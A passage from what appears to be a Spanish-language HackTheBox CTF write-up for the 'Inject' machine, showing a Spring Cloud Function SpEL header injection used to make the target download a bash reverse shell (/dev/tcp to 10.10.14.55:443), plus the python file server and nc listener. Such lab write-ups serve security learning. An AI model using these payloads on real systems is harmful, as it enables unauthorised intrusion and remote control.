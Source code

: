 - Si comprobamos desde el **LFI** vemos que efectivamente se creo.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/inject/16.png">
</p>

## Shell as frank

- Para obtener una `shell` vamos a crear un `.sh` que contenga una reverse `shell` y lo vamos a compartir mediante un servidor http con python3 para poder descargarlo en la maquina victima y hacer una petición al archivo.

```bash
➜  content cat reverse.php
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.55/443 0>&1
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Ahora nos ponemos en escucha.

```bash
➜  ~ nc -nlvp 443
listening on [any] 443 ...
```

- Ahora subimos el archivo a la máquina.

```bash
➜  content curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.55:80/reverse.sh -o /tmp/reverse.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/8.5.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.55:80/reverse.sh -o /tmp/reverse.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
```